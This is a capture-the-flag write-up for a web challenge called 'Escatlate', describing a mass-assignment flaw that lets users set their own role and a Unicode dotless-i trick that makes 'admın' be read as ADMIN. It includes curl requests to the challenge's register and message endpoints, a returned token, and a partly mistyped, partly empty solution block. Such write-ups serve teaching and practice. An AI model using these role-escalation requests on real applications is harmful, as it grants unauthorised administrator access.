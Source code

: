 # Escatlate
### There are two flags to find in this challenge. Let's take a look at how to find them.
[https://escatlate-52bc47e034fa.1753ctf.com/]
>
>Look! Kitties!
>
## Moderator

Logging in to the cat site automatically gets the `user role`, it allows you to browse the cat site and post comments. However, the application has a vulnerability: Mass Assignment. This means that the role assignment is not checked and the user can change it.That is, by providing a session token we are able to overwrite our role. Read more [here](https://tcm-sec.com/exploiting-mass-assignment-vulnerabilities/)

```bash 
example solution


```
## Admin

However, with the second flag, i.e. changing the role from `user` to `admin`, the application has a dotless vulnerability. When you specify a new role as `admın`, Unicode case collisions happen and it is read as `ADMIN`. More information [here](https://dev.to/jagracey/hacking-github-s-auth-with-unicode-s-turkish-dotless-i-460n)

```bash 
example solution
url --path-as-is -i -s -k -X $'POST' -H '$HOST: escatlate-52bc47e034fa.1753ctf.com' -H $'User-Agent: Im.cat' -H'Content-Type: application/json' -H $'Content-Lenght: 53' --data-binary $'{\"username\":\"fw\",\"password\":\"dupa\",\"role\":\"admın\"}' $'https://escatlate-52bc47e034fa.1753ctf.com/api/register'
```
Then we can recive:
```bash
{"username":"fw","password":"dupa","token":"2b0b185cdbd08004698673d68697f262f2511ad8c446a98e2c058759aa4478e2","role":"admın"}
```
so we can confirm our role now is `admın` but app read this role as  `ADMIN` so we have admin righ. Now we can use our token to get flag:
```bash
curl --path-as-is -i -s -k -X $'GET' \
-H $'Host: escatlate-52bc47e034fa.1753ctf.com' -H $'User-Agent: Im.cat' -H $'X-Token: 2b0b185cdbd08004698673d68697f262f2511ad8c446a98e2c058759aa4478e2' \
$'https://escatlate-52bc47e034fa.1753ctf.com/api/message'

```
